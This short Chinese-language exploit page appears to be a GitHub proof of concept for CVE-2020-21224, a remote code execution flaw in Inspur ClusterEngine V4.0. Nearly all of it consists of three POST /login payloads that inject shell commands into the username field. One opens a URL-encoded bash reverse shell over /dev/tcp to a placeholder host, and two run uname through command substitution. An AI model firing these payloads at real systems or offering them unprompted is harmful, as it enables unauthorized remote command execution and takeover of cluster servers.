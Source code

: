 ## CVE-2020-21224 浪潮 ClusterEngineV4.0 远程代码执行

影响版本：
- 不详  

POC：  

POST /login  
1：
```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F0.0.0.0%2F0000%200%3E%261`
```
2:
```
op=login&username=1 2\',\'1\'\);  $(uname)
```
3:
```
op=login&username=1 2\',\'1\'\);  ```uname```
```

[@NS-Sp4ce](https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul)